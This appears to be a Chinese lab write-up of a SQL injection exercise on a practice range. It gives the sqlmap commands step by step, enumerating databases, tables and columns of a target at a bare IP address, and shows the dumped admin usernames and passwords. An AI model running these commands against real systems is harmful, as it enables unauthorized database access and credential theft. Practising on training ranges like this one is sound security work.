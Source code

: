 ```yaml
---
title: SQL注入实战（一）
categories: SQL注入
tags: sql
---
```

### 封神台靶场

https://hack.zkaq.cn/battle/target?id=485e58d0afa7e4f7

#### 查找注入点：

sqlmap.py -u http://59.63.200.79:8003/?id=1

#### 查找数据库

sqlmap.py -u http://59.63.200.79:8003/?id=1 --dbs

#### 有三个数据库

available databases [3]:  
[ _] information_schema  
[_] maoshe  
[*] test  
初步判断是maoshe

#### 查找maoshe下的表

sqlmap.py -u http://59.63.200.79:8003/?id=1 -D maoshe --tables

#### 找到四个表：

Database: maoshe  
[4 tables]  
±------+  
| admin |  
| dirs |  
| news |  
| xss |  
±------+

#### 判断管理员密码在admin里面

查找admin表下面的列  
sqlmap.py -u http://59.63.200.79:8003/?id=1 -D maoshe -T admin --column  
找到三个字段  
Database: maoshe  
Table: admin  
[3 columns]  
±---------±------------+  
| Column | Type |  
±---------±------------+  
| Id | int(11) |  
| password | varchar(11) |  
| username | varchar(11) |  
±---------±------------+  
我们只需要账号密码字段就行了  
查找账号密码

sqlmap.py -u http://59.63.200.79:8003/?id=1 -D maoshe -T admin -C
username,password --dump

#### 找到用户名密码

Database: maoshe  
Table: admin  
[2 entries]  
±---------±-----------+  
| username | password |  
±---------±-----------+  
| admin | hellohack |  
| ppt领取微信 | zkaqbanban |  
±---------±-----------+

本次注入完成


